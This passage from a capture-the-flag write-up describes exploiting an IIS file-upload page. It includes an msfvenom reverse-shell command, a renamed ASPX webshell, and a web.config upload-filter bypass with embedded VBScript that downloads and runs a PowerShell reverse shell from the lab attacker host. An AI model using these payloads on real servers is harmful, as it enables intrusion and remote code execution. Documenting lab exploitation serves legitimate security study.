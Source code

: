 ## Exploitation

Lets generate a reverse shell:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.51 LPORT=4242 -f aspx > reverse.aspx
```

I tried uploading it in the upload page. Yet it gave me back the file was unvalid. Maybe Windows Defender blocking it. Or just bad architecture. So I tried around with different payload/encoding and stuff like that. Came up with this:

```
/usr/share/webshells/aspx/cmdasp.aspx
mv cmdasp.aspx cmdasp.aspx.png
```

![image-20210527095436103.png](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210527095436103.png)

But launching that uploaded files in `uploadedfiles/cmdasp.aspx.png` is not working. So I did some google-fu and found this: https://soroush.secproject.com/blog/tag/unrestricted-file-upload/ Which made me create this web.config file:

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.51/mini-reverse.ps1')")
%>

```
